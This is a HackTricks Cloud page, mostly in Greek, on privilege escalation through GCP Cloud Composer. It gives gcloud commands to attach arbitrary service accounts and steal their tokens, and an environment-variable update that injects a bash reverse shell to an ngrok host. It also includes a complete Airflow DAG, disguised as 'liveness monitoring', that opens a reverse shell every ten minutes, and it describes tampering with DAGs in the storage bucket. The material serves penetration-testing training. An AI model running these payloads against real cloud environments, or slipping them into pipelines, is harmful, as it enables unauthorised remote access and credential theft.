 # GCP - Composer Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## composer

Περισσότερες πληροφορίες στο:

{% content-ref url="../gcp-services/gcp-composer-enum.md" %}
[gcp-composer-enum.md](../gcp-services/gcp-composer-enum.md)
{% endcontent-ref %}

### `composer.environments.create`

Είναι δυνατόν να **συνδέσετε οποιοδήποτε λογαριασμό υπηρεσίας** στο νέο περιβάλλον composer με αυτή την άδεια. Αργότερα μπορείτε να εκτελέσετε κώδικα μέσα στο composer για να κλέψετε το token του λογαριασμού υπηρεσίας.
```bash
gcloud composer environments create privesc-test \
--project "${PROJECT_ID}" \
--location europe-west1 \
--service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```
Περισσότερες πληροφορίες σχετικά με την εκμετάλλευση [**εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

Είναι δυνατή η ενημέρωση του περιβάλλοντος composer, για παράδειγμα, τροποποιώντας τις μεταβλητές περιβάλλοντος:

{% code overflow="wrap" %}
```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
projects/<project-id>/locations/<location>/environments/<composer-env-name> \
--update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
--location <location> \
--project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```
{% endcode %}

TODO: Get RCE by adding new pypi packages to the environment

### Κατέβασμα Dags

Ελέγξτε τον πηγαίο κώδικα των dags που εκτελούνται:

{% code overflow="wrap" %}
```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```
{% endcode %}

### Εισαγωγή Dags

Προσθέστε τον κώδικα python DAG σε ένα αρχείο και εισάγετέ το εκτελώντας:

{% code overflow="wrap" %}
```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```
{% endcode %}

DAG αντίστροφης θήκης:

{% code title="reverse_shell.py" %}
```python
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
'start_date': airflow.utils.dates.days_ago(0),
'retries': 1,
'retry_delay': timedelta(minutes=5)
}

dag = DAG(
'reverse_shell',
default_args=default_args,
description='liveness monitoring dag',
schedule_interval='*/10 * * * *',
max_active_runs=1,
catchup=False,
dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
task_id='bash_rev',
bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
dag=dag,
depends_on_past=False,
priority_weight=2**31 - 1,
do_xcom_push=False)
```
{% endcode %}

### Γράψτε Πρόσβαση στον κάδο Composer

Όλα τα στοιχεία ενός περιβάλλοντος composer (DAGs, plugins και δεδομένα) αποθηκεύονται μέσα σε έναν κάδο GCP. Εάν ο επιτιθέμενος έχει δικαιώματα ανάγνωσης και εγγραφής σε αυτόν, θα μπορούσε να παρακολουθεί τον κάδο και **όποτε δημιουργείται ή ενημερώνεται ένα DAG, να υποβάλει μια παραποιημένη έκδοση** ώστε το περιβάλλον composer να πάρει από την αποθήκευση την παραποιημένη έκδοση.

Get more info about this attack in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

### Εισαγωγή Plugins

TODO: Check what is possible to compromise by uploading plugins

### Εισαγωγή Δεδομένων

TODO: Check what is possible to compromise by uploading data

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
